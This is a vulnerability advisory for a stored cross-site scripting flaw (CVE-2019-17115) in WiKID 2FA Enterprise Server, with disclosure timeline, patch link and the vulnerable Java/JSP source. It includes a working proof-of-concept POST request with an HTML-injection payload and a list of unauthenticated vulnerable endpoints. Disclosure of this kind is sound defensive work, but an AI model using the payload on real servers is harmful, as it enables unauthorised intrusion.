

An unauthenticated stored cross-site scripting vulnerability, CVE-2019-17115, was identified on `WiKID Systems 2FA Enterprise Server` version `4.2.0-b2047` and earlier.  Submitting invalid values, through one of the affected parameters, will cause an error to be logged and stored as a `rendered_message`; the malicious value is retrieved and displayed through **Logs.jsp**.  The error messages are severe enough to be displayed by default. 

## Patch

* **4.2.0.b2053**: <https://downloads.wikidsystems.com/wikid-server-enterprise-4.2.0.b2053-1.noarch.rpm>

## Timeline

* 26 Sep 2019 - Issue discovered on `WiKID Systems 2FA Enterprise Server 4.2.0-b2032`
* 29 Sep 2019 - Issue disclosed to WiKID Systems
* 09 Oct 2019 - Issue confirmed by WiKID Systems, Patch released
* 16 Oct 2019 - Public Disclosure

## Description

Reviewing the source for **Logs.jsp** reveals that `rendered_message` is included, unsanitized, in a string that is constructed and displayed by **Logs.jsp**

~~~
394                 sb.append("<TD class=\"logTableCell\" style=\"white-space:normal;\">")
395                         .append("<a href='./Log.jsp?subString=" + rs.getString("rendered_message") + "'>")
396                         .append("</a>")
397                         .append(rs.getString("rendered_message").replaceAll("<", "&lt;").replaceAll(">", "&gt;"))
398                         .append("</TD>");
~~~

A review of `wikid-server-enterprise-lib-4.2.0.jar` revealed several instance where parameters are read and passed to the logger.  One  example can be found in `com.wikidsystems.server.InitDevice5AES`:

~~~
70      try {
71        requestAction = Integer.parseInt(request.getParameter("a"));
72        logger.debug("Determined requested action: " + requestAction);
73      }
74      catch (NumberFormatException nfe) {
75        nfe.printStackTrace();
76        logger.error("IO error during registration -- recieved action: " + request.getParameter("a"), nfe);
77      } 
~~~

Submitting a non-integer value for <var>a</var> will trigger an error and drop into the `catch` block; the <var>a</var> parameter is then included, unsanitized, in the message passed to `logger`, with the severity of **error**.  The following request submits an HTML element as the value for <var>a</var>:

~~~
POST /wikid/servlet/com.wikidsystems.server.InitDevice4AES HTTP/1.1
Host: $RHOST
User-Agent: WiKID J2ME Token
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Payload: dGVzdA==
Connection: close
Upgrade-Insecure-Requests: 1=
Content-Type: application/x-www-form-urlencoded
Content-Length: 60

S=1&a=test'><!--
~~~

The JavaScript is executed whenever `Log.jsp` is visited:

The JavaScript is then visible in source of the page:

~~~{.html}
<a href="./Log.jsp?subString=IO error during registration phase 1 -- recieved action: test"><!--'><img src='./images/toolFilter.png' alt='' 
~~~

The following parameters and endpoints are known to be vulnerable and do not require authentication:

~~~
(1) H parameter
    - /wikid/servlet/com.wikidsystems.server.GetDomainHash
(2) S parameter 
    - /wikid/DomainData 
    - /wikid/PreRegisterLookup 
    - /wikid/PreRegister 
    - /wikid/InitDevice 
    - /wikid/servlet/InitDevice2S 
    - /wikid/servlet/InitDevice3S 
    - /servlet/com.wikidsystems.server.InitDevice2S 
    - /servlet/com.wikidsystems.server.InitDevice3S 
    - /servlet/com.wikidsystems.server.InitDevice4S 
    - /wikid/servlet/com.wikidsystems.server.InitDevice4AES 
    - /wikid/servlet/com.wikidsystems.server.InitDevice5AES 
(3) a parameter
    - /wikid/PreRegisterLookup 
    - /wikid/InitDevice 
    - /wikid/servlet/InitDevice2S 
    - /wikid/servlet/InitDevice3S 
    - /servlet/com.wikidsystems.server.InitDevice2S 
    - /servlet/com.wikidsystems.server.InitDevice3S 
    - /servlet/com.wikidsystems.server.InitDevice4S 
    - /wikid/servlet/com.wikidsystems.server.InitDevice4AES 
    - /wikid/servlet/com.wikidsystems.server.InitDevice5AES
~~~
